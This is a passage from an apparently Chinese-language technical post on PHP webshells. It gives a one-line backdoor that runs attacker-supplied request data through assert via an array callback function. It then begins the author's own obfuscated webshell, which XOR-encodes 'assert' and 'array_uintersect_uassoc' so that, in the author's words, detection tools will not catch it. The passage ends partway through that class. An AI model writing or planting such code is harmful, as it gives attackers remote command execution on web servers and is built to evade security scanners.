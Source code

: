 比如：

```
<?php
$password = "LandGrey";
array_udiff_assoc(array($_REQUEST[$password]), array(1), "assert");
?>
```

这部分函数我也没仔细找过，有兴趣的可以网上找一下，只需要有调用其他函数的功能即可。这里放一个我曾经写过的一个小马，利用了array\_uintersect\_uassoc函数来回调assert，并且也相应做了亦或处理来隐藏关键字，目测是不会被检测出来的。

```
<?php
function myfunction_key($a,$b){
    if ($a===$b){
        return 0;
    }
    return ($a>$b)?1:-1;
}
class rtHjmCdS{
    public $fHfoj;
    public $fDaGv;  
    public $HgAjSd; 
    function __construct(){

        $_xlr="J"^"\x2b";
        $_Nbv="V"^"\x25";
        $_cfh="T"^"\x27";
        $_PdK="I"^"\x2c";
        $_zJQ="+"^"\x59";
        $_RgD="="^"\x49";
        $this->fDaGv=$_xlr.$_Nbv.$_cfh.$_PdK.$_zJQ.$_RgD;
        
        $_fLd="a"^"\x0";
        $_wOK="j"^"\x18";
        $_tAH="U"^"\x27";
        $_HeV="J"^"\x2b";
        $_cyo="-"^"\x54";
        $_iSW="F"^"\x19";
        $_jYS="/"^"\x5a";
        $_BFt="h"^"\x1";
        $_TRn="p"^"\x1e";
        $_izx="k"^"\x1f";
        $_gMz="X"^"\x3d";
        $_TNu="<"^"\x4e";
        $_UiE="v"^"\x5";
        $_iHI="q"^"\x14";
        $_LIK="m"^"\xe";
        $_Yey="Z"^"\x2e";
        $_lMr="="^"\x62";
        $_WOI="+"^"\x5e";
        $_FQy="u"^"\x14";
        $_sjC="d"^"\x17";
        $_mOr=">"^"\x4d";
        $_Txf="*"^"\x45";
        $_PmW="O"^"\x2c";
        $this->HgAjSd=$_fLd.$_wOK.$_tAH.$_HeV.$_cyo.$_iSW.$_jYS.$_BFt.$_TRn.$_izx.$_gMz.$_TNu.$_UiE.$_iHI.$_LIK.$_Yey.$_lMr.$_WOI.$_FQy.$_sjC.$_mOr.$_Txf.$_PmW;
        }
    
    function __destruct(){
        
        $Hfdag = $this->HgAjSd; //'array_uintersect_uassoc'
        $fdJfd = $this->fDaGv; // 'assert'
```